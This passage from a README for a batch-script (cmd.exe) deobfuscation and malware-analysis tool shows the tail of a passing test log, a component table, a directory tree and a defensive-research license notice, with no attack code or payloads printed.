test_compound_assignments (test_arithmetic_suite.TestArithmeticEvaluator) ... ok
test_fold_multi_assignment_sequence (test_arithmetic_suite.TestArithmeticFolderPass) ... ok
test_real_world_obfuscation_payload (test_arithmetic_suite.TestArithmeticFolderPass) ... ok
test_reverse_direct (test_reversal_suite.TestStringReversalAutomaton) ... ok
test_simulate_slice_loop_reverse (test_reversal_suite.TestStringReversalAutomaton) ... ok
test_simulate_index_sequence (test_reversal_suite.TestStringReversalAutomaton) ... ok
test_simulate_stack_reversal (test_reversal_suite.TestStringReversalAutomaton) ... ok
test_detect_for_l_append (test_reversal_suite.TestReversalPatternDetector) ... ok
test_detect_goto_stack_reversal (test_reversal_suite.TestReversalPatternDetector) ... ok
test_fold_for_l_reverse_string (test_reversal_suite.TestReversalFolderPass) ... ok
test_fold_for_in_dictionary_transposition (test_reversal_suite.TestReversalFolderPass) ... ok
test_fold_goto_stack_reversal_loop (test_reversal_suite.TestReversalFolderPass) ... ok
test_batch_deobfuscator_reversal (test_reversal_suite.TestBatchDeobfuscatorReversal) ... ok
test_quote_state_machine_basic_segments (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok
test_collapse_embedded_empty_quotes (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok
test_normalize_target_stripped_quotes (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok
test_normalize_argument_safe_tokens (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok
test_normalize_assignment_enclosed_quotes (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok
test_pass_transforms_command_node (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok
test_pass_manager_pipeline_execution (test_quote_normalizer_suite.TestQuoteNormalizerSuite) ... ok

----------------------------------------------------------------------
Ran 306 tests in 0.190s

OK
```

</details>

---

<span id="repository-architecture"></span>
## 📁 Repository Architecture

<span id="repository-architecture-directory-map"></span>
<span id="repository-architecture--directory-map"></span>
### 📁 Repository Architecture & Directory Map

<details open>
<summary><b>📋 Repository Architecture &amp; Component Directory Map (Click to collapse/expand)</b></summary>
<br>

<table width="100%">
  <thead>
    <tr>
      <th width="30%" align="left"><nobr>📁 Component / File</nobr></th>
      <th width="20%" align="left"><nobr>⚙️ Architectural Layer</nobr></th>
      <th width="50%" align="left"><nobr>📝 Engineering Description</nobr></th>
    </tr>
  </thead>
  <tbody>
    <!-- Root -->
    <tr>
      <td colspan="3" bgcolor="#0f172a"><strong>📦 Root Workspace Manifests &amp; Documentation</strong></td>
    </tr>
    <tr>
      <td><strong><code>README.md</code></strong></td>
      <td>Technical Documentation</td>
      <td>Primary architectural blueprint, AST benchmarks, 7-tool forensic study, and CLI reference</td>
    </tr>
    <tr>
      <td><strong><code>LICENSE</code></strong></td>
      <td>Research License</td>
      <td>Maya Thorne Systems &amp; Security Research License (MT-SRL) for defensive analysis</td>
    </tr>
    <tr>
      <td><strong><code>.gitignore</code></strong></td>
      <td>Version Control</td>
      <td>Production Git exclusions covering bytecode, cache, memory journals, and IDE files</td>
    </tr>
    <tr>
      <td><strong><code>Cargo.toml</code></strong></td>
      <td>Rust Package Manifest</td>
      <td>Crate manifest for native high-performance Rust acceleration core and C ABI cdylib</td>
    </tr>
    <!-- include/ & rust/ -->
    <tr>
      <td colspan="3" bgcolor="#0f172a"><strong>⚡ <code>include/</code> &amp; <code>rust/</code> — Native Acceleration &amp; C ABI Interface</strong></td>
    </tr>
    <tr>
      <td><strong><code>include/cmd_deobfuscator.h</code></strong></td>
      <td>C ABI Specification</td>
      <td>Standard C99/C11 header declaring opaque context handles, execution options, quantitative telemetry, and memory zeroization</td>
    </tr>
    <tr>
      <td><strong><code>rust/lib.rs</code></strong></td>
      <td>Rust Native Core</td>
      <td>Zero-copy caret stripping, fast-path delimiter folding, Shannon entropy deltas, and secure volatile memory zeroize</td>
    </tr>
    <tr>
      <td><strong><code>rust/ffi.rs</code></strong></td>
      <td>C ABI Bindings</td>
      <td>Exported <code>extern "C"</code> ABI entry points matching <code>cmd_deobfuscator.h</code></td>
    </tr>
    <!-- src/ -->
    <tr>
      <td colspan="3" bgcolor="#0f172a"><strong>⚙️ <code>src/</code> — Core AST Engine &amp; Compiler Pipeline</strong></td>
    </tr>
    <tr>
      <td><strong><code>src/__init__.py</code></strong></td>
      <td>Package API</td>
      <td>Clean library interface exporting 19 AST nodes, parser automata, and engine symbols</td>
    </tr>
    <tr>
      <td><strong><code>src/ast_nodes.py</code></strong></td>
      <td>AST Hierarchy</td>
      <td>Visitor-pattern syntax tree node definitions (ScriptNode, CommandNode, BinaryOpNode)</td>
    </tr>
    <tr>
      <td><strong><code>src/automaton.py</code></strong></td>
      <td>PDA Automaton</td>
      <td>Deterministic pushdown automaton state machine for nested subshells and loops</td>
    </tr>
    <tr>
      <td><strong><code>src/cli.py</code></strong></td>
      <td>CLI Driver</td>
      <td>Terminal runner with UTF-8 normalization, color output, and tree/mermaid/json export</td>
    </tr>
    <tr>
      <td><strong><code>src/deobfuscator_engine.py</code></strong></td>
      <td>Engine Pipeline</td>
      <td>Multi-pass static evaluation engine orchestrating 6 AST normalization passes</td>
    </tr>
    <tr>
      <td><strong><code>src/lexer.py</code></strong></td>
      <td>Lexical Analyzer</td>
      <td>Faithful <code>cmd.exe</code> 5-phase lexical scanner tokenizing carets, percents, and pipes</td>
    </tr>
    <tr>
      <td><strong><code>src/modifiers.py</code></strong></td>
      <td>Modifier Engine</td>
      <td>Windows parameter and FOR loop path modifier resolver (<code>%~dp0</code>, <code>%~f1</code>, <code>%~$PATH:i</code>, 8.3 short names)</td>
    </tr>
    <tr>
      <td><strong><code>src/normalizer.py</code></strong></td>
      <td>AST Normalizer</td>
      <td>AST rewriting engine resolving variable slicing, pattern substitution, and caret folding</td>
    </tr>
    <tr>
      <td><strong><code>src/parser.py</code></strong></td>
      <td>Syntax Parser</td>
      <td>Recursive descent pushdown AST parser constructing strict syntax trees from tokens</td>
    </tr>
    <tr>
      <td><strong><code>src/reversal/</code></strong></td>
      <td>Reversal Engine</td>
      <td>Pushdown automaton, pattern detector, and simulation engine for Somalifuscator reverse loops and transpositions</td>
    </tr>
    <tr>
      <td><strong><code>src/quotes/</code></strong></td>
      <td>Quotes Engine</td>
      <td>Pushdown automaton, target deobfuscator, argument canonicalizer, and nested quote reduction engine</td>
    </tr>
    <tr>
      <td><strong><code>src/packers/</code></strong></td>
      <td>Packers &amp; Stubs</td>
      <td>Multi-stage recursive unpacker, heuristic detector, CertUtil base64/hex, PowerShell streams, echo droppers, and transition provenance</td>
    </tr>
    <tr>
      <td><strong><code>src/cff/</code></strong></td>
      <td>Control Flow De-flattening</td>
      <td>CFF dispatcher analyzer, loop detector, bounded loop unroller, state machine topology builder, and linearizing AST decompiler</td>
    </tr>
    <tr>
      <td><strong><code>src/ir/</code></strong></td>
      <td>IR &amp; Transpiler</td>
      <td>Language-agnostic Intermediate Representation models, AST-to-IR builder, and Python 3 / PowerShell target code generators</td>
    </tr>
    <tr>
      <td><strong><code>src/transforms/</code></strong></td>
      <td>Transforms Pipeline</td>
      <td>Modular AST optimization passes (<code>DeflatPass</code>, <code>DosfuscationPass</code>, <code>RedirectionPass</code>, <code>QuoteNormalizerPass</code>, <code>ReversalFolderPass</code>, <code>ArithmeticFolderPass</code>, <code>DeadCodeEliminationPass</code>, <code>ParamResolverPass</code>, <code>CaretNormalizerPass</code>, <code>SlicingFolderPass</code>, <code>ConstantFolderPass</code>, <code>PassManager</code>)</td>
    </tr>
    <tr>
      <td><strong><code>src/benchmark/</code></strong></td>
      <td>Benchmark Harness</td>
      <td>Real-world sample evaluation suite, Shannon entropy metrics, and multi-engine verification</td>
    </tr>
    <tr>
      <td><strong><code>src/scanner/</code></strong></td>
      <td>Directory Batch Scanner</td>
      <td>High-throughput parallel directory scanner, thread-pool worker coordinator, recursive path traversal defense, and report generator</td>
    </tr>
    <tr>
      <td><strong><code>src/ioc/</code></strong></td>
      <td>Malware IOC Extractor</td>
      <td>AST-based malware indicator extraction engine, LOLBins registry, MITRE ATT&amp;CK behavior mapping, automated defanging, and STIX 2.1 threat intelligence exporter</td>
    </tr>
    <tr>
      <td><strong><code>src/ffi/</code></strong></td>
      <td>FFI &amp; Native Bridge</td>
      <td>Unified C/Rust FFI subsystem providing ctypes data structures, bridge dispatch, memory zeroization, and standalone verifier</td>
    </tr>
    <tr>
      <td><strong><code>src/ebnf/</code></strong></td>
      <td>EBNF Grammar &amp; Validator</td>
      <td>cmd.exe formal EBNF production rules, grammar conformance validator, canonical 25-sample test corpus, and coverage telemetry</td>
    </tr>
    <tr>
      <td><strong><code>src/visualizer.py</code></strong></td>
      <td>Visualizer Engine</td>
      <td>Multi-target visualizer emitting ASCII syntax trees, Mermaid flowcharts, and JSON</td>
    </tr>
    <!-- tests/ -->
    <tr>
      <td colspan="3" bgcolor="#0f172a"><strong>🧪 <code>tests/</code> — Automated Verification Suite</strong></td>
    </tr>
    <tr>
      <td><strong><code>tests/test_ast_suite.py</code></strong></td>
      <td>Unit Tests</td>
      <td>Compiler verification suite testing lexer tokens, automaton transitions, and AST nodes</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_dce_suite.py</code></strong></td>
      <td>DCE &amp; Pruning Tests</td>
      <td>Dead Code Elimination, unreferenced SET pruning, dead store removal, and unreachable statement tests</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_for_param_expansion.py</code></strong></td>
      <td>Parameter &amp; Loop Tests</td>
      <td>Comprehensive verification for FOR loop variable scoping, parameter path modifiers, and 8.3 short paths</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_delayed_expansion.py</code></strong></td>
      <td>Delayed Expansion Tests</td>
      <td>Unit tests for <code>!VAR!</code> delayed variables, quoting boundaries, and caret escapes</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_slicing_folder.py</code></strong></td>
      <td>Slicing Transform Tests</td>
      <td>Optimization tests for <code>%VAR:~s,l%</code> constant folding, boundary clamping, and slice coalescing</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_caret_normalizer.py</code></strong></td>
      <td>Caret Transform Tests</td>
      <td>Optimization tests for multi-level caret escape sequences, quote tracking, and pipeline passes</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_benchmark_suite.py</code></strong></td>
      <td>Benchmark Tests</td>
      <td>Shannon entropy, AST node reduction, corpus validation, and 100% payload recovery tests</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_deobfuscator.py</code></strong></td>
      <td>Integration Tests</td>
      <td>End-to-end invariant validation verifying deobfuscation of 12 adversarial vectors</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_reversal_suite.py</code></strong></td>
      <td>Reversal Suite Tests</td>
      <td>Unit &amp; integration tests for string reversal automata, dictionary transpositions, and GOTO loops</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_quote_normalizer_suite.py</code></strong></td>
      <td>Quote Normalizer Tests</td>
      <td>Unit &amp; integration tests for quotation toggle state machine, empty quote collapse, and argument canonicalization</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_deflat_suite.py</code></strong></td>
      <td>Packers &amp; CFF Tests</td>
      <td>Unit &amp; integration tests for 0xidiz3r signature detection, CertUtil unpacking, CFF state analysis, and AST de-flattening</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_cff_unroller_suite.py</code></strong></td>
      <td>CFF Unroller Tests</td>
      <td>Unit &amp; integration tests for CFF dispatcher loop unrolling, dominators, bounded loops, structured while loops, zeroize &amp; CLI</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_ir_transpiler_suite.py</code></strong></td>
      <td>IR &amp; Transpiler Tests</td>
      <td>Unit &amp; integration tests for IR models, ASTToIRBuilder, PythonEmitter, PowerShellEmitter, and CLI transpiler flags</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_tui_inspector_suite.py</code></strong></td>
      <td>TUI &amp; Diff Tests</td>
      <td>Unit &amp; integration tests for terminal pipeline debugger, unified/side-by-side diff renderer, and colorized AST trees</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_scanner_suite.py</code></strong></td>
      <td>Directory Scanner Tests</td>
      <td>Unit &amp; integration tests for directory batch scanner, FileCollector, multi-encoding fallback, mirror/in-place persistence, and CLI flags</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_ioc_suite.py</code></strong></td>
      <td>Malware IOC Extractor Tests</td>
      <td>Unit &amp; integration tests for IPv4/IPv6, URLs, domains, PE/script drops, LOLBins, MITRE ATT&amp;CK mapping, defanging, multi-format exports (JSON, CSV, MD, STIX 2.1), and CLI flags</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_ffi_suite.py</code></strong></td>
      <td>C/Rust FFI Tests</td>
      <td>Unit &amp; integration tests for C ABI structures, Rust native core bindings, Python bridge fallback, memory zeroization, and CLI flags</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_ebnf_suite.py</code></strong></td>
      <td>EBNF Grammar &amp; Validator Tests</td>
      <td>Unit &amp; integration tests for formal EBNF models, conformance validator, canonical test corpus, and CLI telemetry flags</td>
    </tr>
    <tr>
      <td><strong><code>tests/test_multi_stage_packers_suite.py</code></strong></td>
      <td>Multi-Stage Packer Tests</td>
      <td>Unit &amp; integration tests for multi-stage packer unpacking, PowerShell streams, echo droppers, cycle detection, DoS limits, and CLI flags</td>
    </tr>
    <!-- Auxiliary Directories -->
    <tr>
      <td colspan="3" bgcolor="#0f172a"><strong>📚 Supporting Directories &amp; Research Assets</strong></td>
    </tr>
    <tr>
      <td><strong><code>samples/benchmark/</code></strong></td>
      <td>Benchmark Corpus</td>
      <td>12 standalone obfuscated batch script samples (.bat) across Invoke-DOSfuscation, 0xidiz3r, and Somalifuscator</td>
    </tr>
    <tr>
      <td><strong><code>.github/workflows/ci.yml</code></strong></td>
      <td>CI / Automation</td>
      <td>Automated GitHub Actions test pipeline across Python 3.10, 3.11, and 3.12 runtimes</td>
    </tr>
    <tr>
      <td><strong><code>docs/</code></strong></td>
      <td>Formal Specifications</td>
      <td>EBNF grammar formalisms, pushdown automata specifications, and 9 localized guides</td>
    </tr>
    <tr>
      <td><strong><code>references/</code></strong></td>
      <td>Forensic Corpus</td>
      <td>Forensic dissections of 7 tools, classic samples, YARA/Sigma rules, and Hugging Face datasets</td>
    </tr>
  </tbody>
</table>

</details>

<br>

<details open>
<summary><b>📁 Complete Repository Directory Tree (Click to collapse/expand)</b></summary>
<br>

```text
cmd-ast-deobfuscator/
├── .github/
│   ├── dependabot.yml                 # Automated dependency update configuration
│   └── workflows/
│       └── ci.yml                     # Automated GitHub Actions CI workflow
├── docs/
│   ├── assets/
│   │   └── locales/                   # 10 localized dark terminal SVG banners
│   ├── locales/                       # 9 localized documentation guides
│   ├── AST_NODE_ARCHITECTURE.md       # Visitor pattern AST node hierarchy & invariants
│   ├── CMD_EXE_EBNF_GRAMMAR.md        # Formal EBNF grammar specification for cmd.exe
│   └── PUSHDOWN_AUTOMATA_SPECIFICATION.md # Pushdown Automaton state transition tables
├── memory/                            # Worker context, anti-patterns & feedback audit
├── references/
│   ├── classic_samples/               # Obfuscated corpus & verified clean counterparts
│   ├── detection_rules/               # Sigma detection rules & YARA malware signatures
│   ├── huggingface-ai/                # 13 Hugging Face deobfuscation datasets & models
│   └── source-dissections/            # Forensic line-by-line dissections of 7 tools
├── src/
│   ├── __init__.py                    # Clean export of AST compiler & transform symbols
│   ├── ast_nodes.py                   # Node hierarchy (ScriptNode, CommandNode, GotoNode, etc.)
│   ├── automaton.py                   # Pushdown automaton state transition engine
│   ├── cfg/                           # Control Flow Graph & dynamic jump table engine
│   │   ├── __init__.py                # CFG builder and visualizer exports
│   │   ├── builder.py                 # AST-to-CFG block partitioning & fallthrough wiring
│   │   ├── jump_table.py              # Dynamic jump resolver & CFF dispatcher detector
│   │   ├── models.py                  # BasicBlock, CFGEdge, CFGMetrics, ControlFlowGraph
│   │   └── visualizer.py              # Mermaid, Graphviz DOT, ASCII & JSON exporters
│   ├── cli.py                         # UTF-8 CLI runner with --tree, --mermaid, --cfg
│   ├── deobfuscator_engine.py         # Multi-pass static AST evaluation engine
│   ├── ebnf/                          # Formal cmd.exe EBNF grammar models, validator & corpus
│   │   ├── __init__.py                # EBNF models, validator, and corpus exports
│   │   ├── corpus.py                  # 25 canonical cmd.exe test corpus samples
│   │   ├── grammar.py                 # 49 formal cmd.exe EBNF production rules
│   │   ├── models.py                  # Rule, validation result, and report dataclasses
│   │   └── validator.py               # EBNFConformanceValidator and audit runner
│   ├── lexer.py                       # cmd.exe 5-phase lexical analyzer
│   ├── modifiers.py                   # FOR parameter path modifier resolver (~dp, ~f)
│   ├── normalizer.py                  # Environment variable expansion & AST normalizer
│   ├── parser.py                      # Recursive descent pushdown AST parser
│   ├── statement_parsers.py           # Specialized statement parsers (FOR, IF, SET, GOTO, CALL)
│   ├── transforms/                    # Modular AST compiler optimization passes
│   │   ├── __init__.py                # Transform passes export & helpers
│   │   ├── base.py                    # TransformPass base & PassManager pipeline
│   │   ├── caret_normalizer.py        # Caret normalization & multi-level unmasker
│   │   ├── constant_folder.py         # General multi-strategy constant folder
│   │   ├── param_resolver.py          # FOR variable & parameter path folding pass
│   │   └── slicing_folder.py          # Substring slicing constant folding pass
│   └── visualizer.py                  # ASCII tree, Mermaid diagrams, and JSON visualizer
├── tests/
│   ├── test_ast_suite.py              # Compiler, lexer, automaton, AST invariant tests
│   ├── test_benchmark_suite.py        # 12-sample benchmark & metrics test suite
│   ├── test_caret_normalizer.py       # Caret normalization & unmasking tests
│   ├── test_cfg_suite.py              # Control Flow Graph & jump table test suite
│   ├── test_delayed_expansion.py      # Delayed expansion (!VAR!) test suite
│   ├── test_deobfuscator.py           # Evaluation engine invariant test suite
│   ├── test_ebnf_suite.py             # EBNF grammar & conformance validator test suite
│   ├── test_for_param_expansion.py    # FOR variable & path modifier test suite
│   └── test_slicing_folder.py         # Substring slicing constant folding tests
├── CHANGELOG.md                       # Release notes and version history
├── LICENSE                            # Maya Thorne Research License (MT-SRL)
├── pyproject.toml                     # Python packaging configuration
├── README.md                          # Primary English documentation
├── ROADMAP.md                         # Capability roadmap and planned milestones
└── SECURITY.md                        # Security policy and invariants
```

</details>

---

<span id="license-responsible-disclosure"></span>
<span id="license--responsible-disclosure"></span>
## ⚖️ License & Responsible Disclosure

This project is licensed under the **Maya Thorne Systems & Security Research License (MT-SRL)** — see [`LICENSE`](LICENSE) for details.

> **Responsible Security Notice**: This software and associated research documentation are provided strictly for defensive security research, malware analysis, incident response, and academic education. All reverse engineering experiments were conducted within isolated offline sandbox environments.

<div align="center">
<sub>Engineered with precision by <strong>Maya Thorne</strong> · All rights reserved.</sub>
</div>
